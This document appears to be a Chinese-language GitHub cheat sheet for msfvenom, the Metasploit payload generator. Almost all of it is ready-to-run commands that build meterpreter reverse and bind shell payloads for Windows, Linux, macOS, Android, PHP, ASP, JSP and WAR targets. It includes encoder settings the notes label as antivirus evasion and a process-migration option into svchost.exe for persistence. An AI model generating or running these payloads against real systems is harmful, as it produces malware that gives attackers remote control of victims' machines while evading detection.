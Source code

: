 # msfvemon 
[MSF生成Payload/反弹shell 方式总结](https://mp.weixin.qq.com/s/pIakrui_9vsQdun7aopUYw)

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 正向反向payload区别, reverse_tcp和bind_tcp区别：
目标机器可以上网，那就使用reverse_tcp，让目标机器出网连接我们的服务器
无法外网的，使用正向连接，反向出不来 windows/x64/meterpreter/bind_tcp

注意，获得meterpreter的顺序为：先在win机器上执行我们的exe，然后再在msf上执行`exploit`。与`reverse_tcp`的顺序刚好相反。

```shell
[reverse_tcp]
attacker -> [contact me at the port 4444] -> victim

after the payload is executed
attacker <-> [port 4444] <-> victim

[bind_tcp]
attacker -> [open the way for me in the port 4444] -> victim

after execution
attacker <-> [port 4444] <-> victim
```


## 各平台的 payload/bin/exe/反弹shell
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling

```bash
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp LPORT=1234 -f exe >bind.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.2.157 -e x86/shikata_ga_nai -b "\x00" -f py 
# 默认的stageless payload只会包含stageless，所以如果想将stdapi和priv两个组建给包含进去的华我们可以用extensions命令：
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe

# Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -a x86 --platform Linux -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=1234 -a x86 --platform Linux -f elf > shell.elf

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho

# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=1234 -f war > shell.war

# shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
免杀版命令
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
```